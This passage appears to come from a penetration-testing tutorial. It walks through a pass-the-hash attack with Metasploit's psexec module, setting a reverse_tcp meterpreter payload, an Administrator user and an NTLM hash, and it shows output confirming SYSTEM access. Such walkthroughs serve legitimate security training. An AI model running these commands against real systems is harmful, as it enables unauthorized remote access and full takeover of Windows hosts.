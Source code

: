 We can obtain a meterpreter session on the target through the use of these hashes alone. So we do not need to exploit any service.

Exit from our meterpreter session.

```
meterpreter > exit
meterpreter > sessions
```

We don't have any more meterpreter sessions.

We'll change the payload to x64. And the reason we are doing that is primarily because the target system is a 64-bit operating system. 

```
search psexec
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
show options
```

It's going to ask us for the SMBUser (SMBUser) and the SMB password (SMBPass). So we can specify the hashes here. And we can also specify the SMB domain (SMBDomain) if the system is connected to a domain.

If we want to get a meterpreter session as the Administrator user, we would copy the hash. And the hash ends right over here. So you want to make sure you don't copy the colons.

Set the SMBUser value to Administrator, or the user that you want to authenticate as.

```
set SMBUser Administrator
```

And we're then going to set the SMB password to the hash here. And if you also obtain clear text credentials, then you can also just paste the clear text credentials in here.

```
set SMBPass aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```

```
exploit
meterpreter > sysinfo
Architecture : x64
Meterpreter : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Put this in the background.

List out our sessions.

```
sessions
```

You can see this is `NT AUTHORITY\SYSTEM`, because we authenticated with the Administrator user, so we get the `NT AUTHORITY\SYSTEM` privileges.
